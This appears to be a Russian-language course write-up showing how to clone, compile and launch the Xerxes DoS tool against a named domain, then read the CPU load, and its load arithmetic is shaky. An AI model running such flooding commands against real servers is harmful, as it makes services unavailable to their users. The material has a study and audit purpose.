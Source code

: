 # 💀 XERXES – самый мощный инструмент для DoS-атаки с использованием Kali Linux

-- Как использовать Xerxes при запуске атаки DOS.

Инструменты DDOS способны создавать большие нагрузки на HTTP-серверы и вызывать большую нагрузку на ресурсы серверов.

Что такое DOS-атака?
Тип атаки, которая флудит серверы или сети, что приводит к тому, что источник недоступен для конечных пользователей.

Xerxes – это простой мощный инструмент для DoS-атаки с использованием Kali Linux

Используйте Xerxes из Github для этого выполните следующие команды:

``` bash
git clone https://github.com/XCHADXFAQ77X/XERXES.git
```
Затем перейдите в директорию.

```
cd xerxes
```

Далее вы должны скомпилировать с помощью GNU GCC

``` bash
gcc xerxes.c -o xerxes
```

Чтобы начать атаку укажите IP-адрес либо домен и порт. Например:

``` bash
./xerxes tsarev.biz 80
```
![image](/💀Task8/img/curl-site-x.png)

![image](/💀Task8/img/x1.png)

## Как видеть результат атаки, возросшая нагрузка на процессор?

Значение `us (user space)` составляет 5.9%, а `sy (system space)` — 4.8% на двухядерном процессоре, это может означать следующее:


   - Для двухядерного процессора максимальное использование CPU составляет 200% (100% на каждое ядро).
   - В вашем случае, общее использование CPU можно оценить как сумму `us` и `sy`:
     - `us + sy = 5.9% + 4.8% = 10.7%`
   - Это означает, что в данный момент ваш процессор используется на 10.7% от его общей мощности.

### Заключение

В данный момент нагрузка увеличилась на 10.7% 

![image](/💀Task8/img/x2.png)



❗ Примечание: Информация только для исследования, обучения или проведения аудита. Применение в корыстных целях карается законом.
